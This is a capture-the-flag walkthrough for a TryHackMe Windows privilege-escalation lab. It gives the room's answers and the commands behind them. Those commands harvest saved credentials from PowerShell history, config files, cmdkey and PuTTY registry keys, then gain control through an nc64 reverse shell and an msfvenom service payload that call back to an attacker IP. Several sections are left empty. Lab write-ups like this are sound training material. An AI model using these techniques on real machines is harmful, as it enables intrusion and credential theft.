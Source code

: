 ![Windows Privilege Escalation Banner](windowsprivesc20/Windows_Privilege_Escalation_Banner.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/windowsprivesc20/Windows_Privilege_Escalation_Cover.png" alt="Windows Privilege Escalation Logo">
</p>

# Windows Privilege Escalation

This guide contains the answer and steps necessary to get to them for the [Windows Privilege Escalation](https://tryhackme.com/room/windowsprivesc20) room.

## Table of contents

- [Windows Privilege Escalation](#windows-privilege-escalation)
- [Harvesting Passwords from Usual Spots](#harvesting-passwords-from-usual-spots)
- [Other Quick Wins](#other-quick-wins)
- [Abusing Service Misconfigurations](#abusing-service-misconfigurations)
- [Abusing dangerous privileges](#abusing-dangerous-privileges)
- [Abusing vulnerable software](#abusing-vulnerable-software)
- [Tools of the Trade ](#tools-of-the-trade)

### Windows Privilege Escalation

1. Users that can change system configurations are part of which group?

   This answer can be found in the text.

   ><details><summary>Click for answer</summary>Administrators</details>

2. The SYSTEM account has more privileges than the Administrator user (aye/nay)

   This answer can be found in the text.

   ><details><summary>Click for answer</summary>aye</details>

### Harvesting Passwords from Usual Spots

1. A password for the julia.jones user has been left on the Powershell history. What is the password?

   We can use the following cmd command to list the powershell history.

   ```cmd
   type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
   ```

   HARVESTING POWERHSELL

   ><details><summary>Click for answer</summary>ZuperCkretPa5z</details>

2. A web server is running on the remote host. Find any interesting password on web.config files associated with IIS. What is the password of the db_admin user?

   First we open the config file located at: `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`. We then look for any mentions of the account `db_admin`.

   HARVESTING IIS

   ><details><summary>Click for answer</summary>098n0x35skjD3</details>

2. There is a saved password on your Windows credentials. Using cmdkey and runas, spawn a shell for mike.katz and retrieve the flag from his desktop.

   Looking through the stored credentials, we can see mikes credentials are indeed on the system.

   ```cmd
   cmdkey /list
   ```

   HARVESTING CREDS

   Now we can spawn a shell under this user and view the flag.

   ```cmd
   runas /savecred /user:admin cmd.exe
   ```

   HARVESTING FLAG
   
   ><details><summary>Click for answer</summary>THM{WHAT_IS_MY_PASSWORD}/details>

4. Retrieve the saved password stored in the saved PuTTY session under your profile. What is the password for the thom.smith user?

   We can use the following command to view stored credentials in Putty.

   ```cmd
   reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
   ```

   HARVESTING PUTTY

   ><details><summary>Click for answer</summary>CoolPass2021</details>

### Other Quick Wins

1. What is the taskusr1 flag?

   First we query the task scheduler to find more information on the misconfigured task.

   ```cmd
   schtasks /query /tn vulntask /fo list /v
   ```

   QUICK TASK

   Using `icacls` we can see the permission we have to modify this file. Looks like we can edit it.

   ```cmd
   icacls C:\tasks\schtask.bat
   ```
   
   QUICK PERMISSIONS

   Now lets edit the bat file to execute our reverse shell.

   ```cmd
   echo C:\Tools\nc64.exe -e cmd.exe 10.18.78.136 1337 > C:\tasks\schtask.bat
   ```

   QUICK SCRIPT

   Last thing to do, is set up our listener and run the task manually.

   ```cmd
   nc -nlvp 1337

   schtasks /run /tn vulntask
   ```
   
   QUICK REVERSE SHELL

   Now we can navigate to the users desktop and read the flag.

   QUICK FLAG

   ><details><summary>Click for answer</summary>THM{TASK_COMPLETED}</details>

### Abusing Service Misconfigurations

1. Get the flag on svcusr1's desktop.

   Lets first query the service configuration and see if we have permission to modify the executable.

   ```cmd
   sc qc WindowsScheduler

   icacls C:\PROGRA~2\SYSTEM~1\WService.exe
   ```

   SERVICES PERMISSIONS

   Looks like we can. Now we can make our reverse payload with msfvenom.

   ```cmd
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.78.136 LPORT=1337 -f exe-service -o rev-svc.exe

   python3 -m http.server 8080

   nc -nlvp 1337
   ```

   After setting up our http server and listener we can use powershell on the target system to transfer the file.

   ```cmd
   wget 10.18.78.136:8080/rev-svc.exe -o rev-svc.exe
   ```

   Now we can create a backup of the original executabel and copy our own into the folder.

   ```cmd
   move WService.exe WService.exe.bkp
   move C:\Users\thm-unpriv\rev-svc.exe WService.exe
   icacls WService.exe /grant Everyone:F
   ```

   SERVICES MOVE FILE
   
   The last thing to do, is stopping the service and then restarting it.

   ```cmd
   sc stop windowsscheduler
   sc start windowsscheduler
   ```

   SERVICES CONNECTION
   
   Now we can look for the flag on the users desktop.

   SERVICES FLAG1

   ><details><summary>Click for answer</summary>THM{AT_YOUR_SERVICE}</details>

3. Get the flag on svcusr2's desktop.



   ><details><summary>Click for answer</summary></details>

4. Get the flag on the Administrator's desktop.



   ><details><summary>Click for answer</summary></details>

### Abusing dangerous privileges




### Abusing vulnerable software




### Tools of the Trade 



1. 

   

   ><details><summary>Click for answer</summary></details>
